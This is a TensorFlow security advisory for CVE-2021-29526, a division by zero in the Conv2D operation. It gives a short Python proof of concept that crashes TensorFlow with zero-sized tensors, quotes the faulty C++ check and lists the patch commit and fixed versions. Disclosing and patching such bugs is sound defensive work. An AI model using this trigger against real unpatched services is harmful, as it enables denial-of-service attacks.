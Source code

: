 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-015.md
## TFSA-2021-015: Division by 0 in `Conv2D`

### CVE Number
CVE-2021-29526

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2D`:

```python
import tensorflow as tf

input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
filter = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)

strides = [1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.Conv2D(input=input, filter=filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/988087bd83f144af14087fe4fecee2d250d93737/tensorflow/core/kernels/conv_ops.cc#L261-L263) does a division by a quantity that is controlled by the caller:

```cc
  const int64 patch_depth = filter.dim_size(2);
  if (in_depth % patch_depth != 0) { ... }
```

### Patches
We have patched the issue in GitHub commit
[b12aa1d44352de21d1a6faaf04172d8c2508b42b](https://github.com/tensorflow/tensorflow/commit/b12aa1d44352de21d1a6faaf04172d8c2508b42b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
